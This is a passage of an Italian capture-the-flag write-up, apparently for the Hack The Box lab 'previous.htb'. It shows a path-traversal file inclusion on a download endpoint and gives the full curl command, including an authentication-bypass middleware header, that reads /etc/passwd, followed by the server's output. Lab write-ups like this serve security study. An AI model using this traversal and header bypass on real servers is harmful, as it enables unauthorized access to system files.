 ![getting-started](./img/getting-started.png)

`/docs/examples`

![examples](./img/examples.png)

Nella pagina `/docs/example` e' presente un link per il download di contenuto da `http://previous.htb/api/download?example=hello-world.ts`.

Si scarica il file `hello-world.ts` ma non contiene nulla di interessante.

## Local File Inclusion

Dato che l'URL `/api/download?example=hello-world.ts` permette di accedere ad un file, questo fa pensare alla possibilita' di sfruttare questo endpoint per accedere a file arbitrari. 
 
`/etc/passwd`

```bash

$ curl --path-as-is -i -s -k -X $'GET' -H $'Host: previous.htb' -H $'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware' -H $'Priority: u=0' $'http://previous.htb/api/download?example=../../../etc/passwd'

HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 05 Sep 2025 17:52:46 GMT
Content-Type: application/zip
Content-Length: 787
Connection: keep-alive
Content-Disposition: attachment; filename=../../../../etc/passwd
ETag: "41amqg1v4m26j"

root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
```
